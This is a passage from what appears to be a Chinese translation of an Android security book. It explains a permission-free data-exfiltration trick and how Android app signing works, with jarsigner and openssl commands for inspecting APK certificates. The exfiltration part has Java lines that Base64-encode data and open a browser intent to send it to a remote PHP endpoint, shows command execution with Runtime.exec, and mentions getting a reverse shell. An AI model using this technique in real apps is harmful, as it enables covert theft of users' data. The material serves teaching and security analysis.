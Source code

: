```java
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);
```

最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个`.php`文件侦听传入的数据：

```java
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+imageString)));
```

我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点是 shell 应该在应用程序的用户下运行：

```java
// To execute commands : 
String str = "cat /proc/version";     //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
```

这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连接，可以用于执行命令），而不需要任何类型的权限。

## 1.4 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。 Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建 Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开发人员可以创建自己的证书并为应用程序签名。

在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否由 Apple 的 CA 签名，然后才允许应用程序运行。

但是，在 Android 中是相反的。 没有证书颁发机构; 而是开发人员的自创建证书可以签署应用程序。 应用程序上传完成后，会由 Google Bouncer 进行验证，这是一个虚拟环境，用于检查应用程序是否是恶意或合法的。 检查完成后，应用就会显示在 Play 商店中。 在这种情况下，Google 不会对该应用程序进行签名。 开发人员可以使用 Android SDK 附带的工具（称为`keytool`）创建自己的证书，或者使用 Eclipse 的 GUI 创建证书。

因此，在 Android 中，一旦开发人员使用他创建的证书签名了应用程序，他需要将证书的密钥保存在安全的位置，以防止其他人窃取他的密钥并使用开发人员的证书签署其他应用程序 。

如果我们有一个 Android 应用程序（`.apk`）文件，我们可以检查应用程序的签名，并找到使用称为`jarsigner`的工具签署应用程序的人，这个工具是 Android SDK 自带的：

```
$ jarsigner -verify -certs -verbose testing.apk
```

以下是在应用程序上运行上述命令并获取签名的信息的屏幕截图：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lpad/img/1-4-1.jpg)

此外，解压缩`.apk`文件后，可以解析`META-INF`文件夹中出现的`CERT.RSA`文件的 ASCII 内容，以获取签名，如以下命令所示：

```
$ unzip testing.apk
$ cd META-INF
$ openssl pkcs7 -in CERT.RSA -print_certs -inform DER -out out.cer
$ cat out.cer
```

这在检测和分析未知的 Android `.apk`示例时非常有用。 因此，我们可以使用它获得签署人以及其他详细信息。

## 1.5 Android 启动流程
